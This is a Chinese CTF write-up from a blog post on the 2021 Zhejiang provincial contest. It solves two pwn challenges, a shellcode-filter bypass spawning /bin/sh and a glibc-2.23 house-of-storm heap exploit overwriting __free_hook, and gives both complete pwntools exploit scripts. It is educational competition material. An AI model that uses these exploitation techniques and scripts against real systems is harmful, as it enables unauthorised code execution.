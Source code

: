 ```yaml
---
layout:     post
title:      浙江2021省赛
subtitle:   pwn wp
date:       2021-10-24
author:     X1ng
header-img: 省赛.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


开始比赛前发现IDA打不开了。。。。难度不大，但是学到了新知识，，感谢 **@Alter**赛后科普house of strom

太菜了太菜了

### sxmz

逻辑很简单，输入shellcode，通过特定检测后直接执行shellcode，输入的字节为`\n`会填充对应位置内存为`\x00`，检测字符的时候遇到`\x00`结束检查，让shellocde的首字节为`\x00`绕过检查，首字节为`\x00`的汇编语句大多是形如`add	BYTE PTR [esi], al`这样的，查看寄存器确保对应寄存器所指向的地址可写，之后写shellcode调用`execve("/bin/sh",0,0)`即可

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='i386'

local=0
binary_name='sx'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51501)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

ru('少侠，请问尊姓大名：')

text='''
add	BYTE PTR [esi], al;


mov esi,eax;


xor edx,edx;


xor ecx,ecx;


mov eax,11;


mov ebx,esi;


add ebx,0x14;


int 0x80;

'''
opcode=asm(text)
print(opcode)
sl(opcode+b'/bin/sh')

ia()
```



### LargeRoom2

glibc-2.23下的house of strom：核心思想在于将个目标地址作为fake_chunk，通过unsorted_bin attack将fake_chunk放到unsorted_bin列表中，利用large_bin attack将fake_chunk的size位字节改为`\x55`（堆地址的最高位一般为`\x55`或`\x56`），申请`0x50`大小的chunk就能申请到目标地址，实现任意地址写

这题在edit的时候存在off-by-null漏洞，并且有个函数直接申请0x50大小的chunk，构造两个大chunk分别放在large_bin和unsorted_bin，unsorted_bin中的chunk要比large_bin中的略微大一点，但是要保证两者在large_bin中存放在同一index下，然后覆盖unsorted_bin的bk和large_bin的bk、bk_nextsize，再申请0x50即可任意地址写

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='LargeRoom2'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51200)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice :',str(num))

def add(sz):
	cho(1)
	sla('Size:',str(sz))

def edit(idx, val):
	cho(4)
	sla('The id of room:',str(idx))
	sla('New Content:',val)

def show(idx):
	cho(2)
	sla('The id of room:',str(idx))

def delete(idx):
	cho(3)
	sla('The id of room:',str(idx))

def lea(val):
	cho(5)
	sla('Your name:',val)


add(0x3f8)
add(0x418)#1 overlap

add(0x3f8)
add(0x3f0)
delete(0)
edit(1,b'a'*0x410+p64(0x420+0x400))
delete(2)
add(0x3f8)
add(0x900)

show(1)
ru('\n')
libcbase=leak_address()-0x3c5068
print('[+]libcbase: '+hex(libcbase))
system=libc.sym['system']+libcbase
print('[+]system: '+hex(system))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))

add(0x810)

add(0x508)#5

add(0x408)#6 overlap

add(0x3f8)
add(0x3f0)
delete(5)
edit(6,b'b'*0x400+p64(0x510+0x410))

delete(7)
add(0x508)
add(0xa000)
delete(4)

edit(5,'/bin/sh')
fake_chunk=free_hook-0x10
edit(1,p64(0)+p64(fake_chunk))
edit(6,p64(0)+p64(fake_chunk+8)+p64(0)+p64(fake_chunk-0x18-5))
lea(p64(system))
delete(5)



ia()
```







